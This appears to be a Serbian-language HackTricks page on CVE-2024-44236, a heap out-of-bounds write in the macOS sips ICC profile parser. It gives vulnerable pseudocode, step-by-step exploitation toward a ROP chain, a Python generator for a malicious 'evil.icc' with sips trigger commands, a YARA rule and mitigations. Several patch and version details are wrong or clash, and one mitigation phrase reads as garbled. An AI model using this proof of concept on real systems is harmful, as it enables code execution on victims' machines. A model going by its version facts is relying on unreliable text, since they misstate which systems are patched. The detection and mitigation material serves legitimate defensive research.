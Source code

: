 # WWW2Exec - sips ICC Profil Izvan Granica Pisanje (CVE-2024-44236)

{{#include ../../banners/hacktricks-training.md}}

## Pregled

Izvan granica **zero-write** ranjivost u Apple macOS **Scriptable Image Processing System** (`sips`) ICC profil parseru (macOS 15.0.1, `sips-307`) omogućava napadaču da ošteti metapodatke hrpe i preusmeri primitiv u punu izvršavanje koda. Greška se nalazi u obradi `offsetToCLUT` polja `lutAToBType` (`mAB `) i `lutBToAType` (`mBA `) oznaka. Ako napadači postave `offsetToCLUT == tagDataSize`, parser briše **16 bajtova nakon kraja bafera hrpe**. Sprejanje hrpe omogućava napadaču da nula-izvede strukture alokatora ili C++ pokazivače koji će kasnije biti dereferencirani, što dovodi do **arbitrary-write-to-exec** lanca (CVE-2024-44236, CVSS 7.8).

> Apple je ispravio grešku u macOS Sonoma 15.2 / Ventura 14.7.1 (30. oktobar 2024). Druga varijanta (CVE-2025-24185) ispravljena je u macOS 15.5 i iOS/iPadOS 18.5 1. aprila 2025.

## Ranjivi Kod
```c
// Pseudocode extracted from sub_1000194D0 in sips-307 (macOS 15.0.1)
if (offsetToCLUT <= tagDataSize) {
// BAD ➜ zero 16 bytes starting *at* offsetToCLUT
for (uint32_t i = offsetToCLUT; i < offsetToCLUT + 16; i++)
buffer[i] = 0;            // no bounds check vs allocated size!
}
```
## Koraci Eksploatacije

1. **Kreirajte zloćudni `.icc` profil**

* Postavite minimalni ICC header (`acsp`) i dodajte jedan `mAB ` (ili `mBA `) tag.
* Konfigurišite tabelu tagova tako da **`offsetToCLUT` bude jednak veličini taga** (`tagDataSize`).
* Postavite podatke pod kontrolom napadača odmah nakon taga tako da 16 nula pisanja preklapa metapodatke alokatora.

2. **Pokrenite parsiranje sa bilo kojom sips operacijom koja dodiruje profil**

```bash
# putanja za verifikaciju (nije potreban izlazni fajl)
sips --verifyColor evil.icc
# ili implicitno prilikom konvertovanja slika koje sadrže profil
sips -s format png payload.jpg --out out.png
```

3. **Kvar metapodataka na heap-u ➜ proizvoljno pisanje ➜ ROP**
Na Apple-ovom podrazumevanom **`nano_zone` alokatoru**, metapodaci za 16-bajtne slotove se nalaze **odmah nakon** poravnate 0x1000 slab. Postavljanjem taga profila na kraj takvog slaba, 16 nula-pisanja uništava `meta->slot_B`. Nakon narednog `free`, otrovani pokazivač se dodaje u malu slobodnu listu, omogućavajući napadaču **da alocira lažni objekat na proizvoljnoj adresi** i prepiše C++ vtable pokazivač koji koristi sips, konačno preusmeravajući izvršenje na ROP lanac smešten u zloćudnom ICC baferu.

### Brzi PoC generator (Python 3)
```python
#!/usr/bin/env python3
import struct, sys

HDR = b'acsp'.ljust(128, b'\0')          # ICC header (magic + padding)
TAGS = [(b'mAB ', 132, 52)]              # one tag directly after header
profile  = HDR
profile += struct.pack('>I', len(TAGS))  # tag count
profile += b''.join(struct.pack('>4sII', *t) for t in TAGS)

mab = bytearray(52)                      # tag payload (52 bytes)
struct.pack_into('>I', mab, 44, 52)      # offsetToCLUT = size (OOB start)
profile += mab

open('evil.icc', 'wb').write(profile)
print('[+] Wrote evil.icc (%d bytes)' % len(profile))
```
### YARA pravilo detekcije
```yara
rule ICC_mAB_offsetToCLUT_anomaly
{
meta:
description = "Detect CLUT offset equal to tag length in mAB/mBA (CVE-2024-44236)"
author       = "HackTricks"
strings:
$magic = { 61 63 73 70 }          // 'acsp'
$mab   = { 6D 41 42 20 }          // 'mAB '
$mba   = { 6D 42 41 20 }          // 'mBA '
condition:
$magic at 0 and
for any i in (0 .. 10):           // up to 10 tags
(
($mab at 132 + 12*i or $mba at 132 + 12*i) and
uint32(132 + 12*i + 4) == uint32(132 + 12*i + 8) // offset == size
)
}
```
## Uticaj

Otvaranje ili obrada kreiranog ICC profila dovodi do daljinskog **izvršavanja proizvoljnog koda** u kontekstu korisnika koji ga pokreće (Preview, QuickLook, Safari renderovanje slika, Mail priloge, itd.), zaobilazeći Gatekeeper jer se profil može ugraditi unutar inače benignih slika (PNG/JPEG/TIFF).

## Detekcija i ublažavanje

* **Zakrpiti!** Osigurajte da host radi na macOS ≥ 15.2 / 14.7.1 (ili iOS/iPadOS ≥ 18.1).
* Implementirajte YARA pravilo iznad na email prolazima i EDR rešenjima.
* Uklonite ili sanirajte ugrađene ICC profile sa `exiftool -icc_profile= -overwrite_original <file>` pre daljnje obrade na nepouzdanim datotekama.
* Ojačajte Preview/QuickLook pokretanjem unutar sandboxovanih “transparentnost i modernizacija” VM-ova prilikom analize nepoznatog sadržaja.
* Za DFIR, tražite nedavnu izvršavanje `sips --verifyColor` ili učitavanje `ColorSync` biblioteka od strane sandboxovanih aplikacija u ujedinjenom logu.

## Reference

* Trend Micro Zero Day Initiative savetovanje ZDI-24-1445 – “Apple macOS ICC Profile Parsing Out-of-Bounds Write Remote Code Execution (CVE-2024-44236)”
https://www.zerodayinitiative.com/advisories/ZDI-24-1445/
* Apple bezbednosne ažuriranja HT213981 “O bezbednosnom sadržaju macOS Sonoma 15.2”
https://support.apple.com/en-us/HT213981

{{#include ../../banners/hacktricks-training.md}}
